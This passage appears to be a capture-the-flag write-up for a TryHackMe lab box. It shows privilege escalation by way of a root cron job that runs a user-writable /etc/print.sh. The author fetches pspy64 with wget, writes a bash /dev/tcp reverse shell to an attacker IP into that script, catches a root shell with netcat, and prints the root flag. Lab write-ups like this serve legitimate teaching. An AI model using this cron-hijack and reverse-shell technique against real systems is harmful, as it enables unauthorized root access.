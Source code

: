 ```bash
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Jun  8 08:02 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ cat startup_list.txt 
lennie@startup:~/scripts$ 
```
We see that both the files inside the scripts directory are owned by root.
The file planner.sh also executes a file print.sh in /etc.
Lets see who owned that file.
```bash
$ ls -l /etc/print.sh 
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```
As lennie ownes this file we can edit this file.
Also, when the planner.sh is executed as root this file will also we executed as root.
How do we execute it?
Is it executed by cron?
Lets find it by using pspy64 which monitors linux process without root permissions.
```bash
lennie@startup:~$ wget [LOCAL_IP]:8000/pspy64
--2021-06-08 08:19:37--  http://10.17.6.214:8000/pspy64
Connecting to 10.17.6.214:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.94M  2.02MB/s    in 1.5s    

2021-06-08 08:19:39 (2.02 MB/s) - ‘pspy64’ saved [3078592/3078592]

lennie@startup:~$ ls
Documents  pspy64  scripts  user.txt
lennie@startup:~$ chmod +x pspy64
lennie@startup:~$ ./pspy64
2021/06/08 08:21:01 CMD: UID=0    PID=1856   | 
2021/06/08 08:21:01 CMD: UID=0    PID=1855   | /bin/bash /home/lennie/scripts/planner.sh 
```
We see planner.sh is a cronjob.
Lets put a bash reverse shell in /etc/print.sh
```bash
lennie@startup:~$ echo "bash -c 'exec bash -i &>/dev/tcp/[Local_IP]/9001 <&1'" > /etc/print.sh
lennie@startup:~$ cat /etc/print.sh 
bash -c 'exec bash -i &>/dev/tcp/10.17.6.214/9001 <&1'
```
On our machine lets use netcat on port 9001
ref for bash reverse shell: https://gtfobins.github.io/gtfobins/bash/#reverse-shell.
Within a few minutes we get our shell.
```bash
$ nc -lvnp 9001                       
listening on [any] 9001 ...
connect to [10.17.6.214] from (UNKNOWN) [10.10.242.177] 50464
bash: cannot set terminal process group (1897): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls
ls
root.txt
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```